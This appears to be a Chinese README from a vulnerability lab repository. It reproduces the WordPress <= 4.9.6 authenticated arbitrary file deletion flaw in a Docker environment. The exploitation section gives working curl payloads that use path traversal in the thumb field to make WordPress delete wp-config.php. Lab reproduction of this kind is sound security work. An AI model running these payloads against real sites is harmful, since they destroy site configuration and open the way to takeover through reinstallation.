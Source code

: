 ## Wordpress <= 4.9.6 任意文件删除漏洞

### 参考链接

[WARNING: WordPress File Delete to Code Execution](https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/  "https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/")

昨日RIPS团队公开了一个Wordpress的[任意文件删除漏洞](https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/)（需要登录），目前该漏洞仍然未修复（2018年06月27日），该漏洞影响 Wordpress 最新版 4.9.6. 

### 环境部署

```dockerfile
docker-compose build
docker-compose up -d
```

由于Mysql初始化需要一段时间，所以请等待。成功运行后，打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。 

部署完成后直接访问`http://ip:8888`即可访问网站。

### 漏洞利用

1. 访问网站。

![](img/1.png)

2. 访问url：`http://your-ip:8888/wp-admin/media-new.php`上传任意图片

![](img/3.png)

3. 点击`Edit`进入到图片修改页面，在网页源代码中找到 `_wpnonce`. 

   ![](img/4.png)

   

#### 发送payload

```
curl -v 'http://your-ip:8888/wp-admin/post.php?post=6' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'
```

**注：**这里的post是自己的图片id，cookie为登录用户的cookie。

![](img/5.png)

4. 删除文件

   在网页源码中找到另外一个 `_wpnonce` 

   ![](img/6.png) 

   发送Payload: 

   ```shell
   curl -v 'http://your-ip:8888/wp-admin/post.php?post=6' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***'
   ```

5. 刷新网页：发现wp-config.php文件被删除，网站需要重新安装

   ![](img/7.png)

   
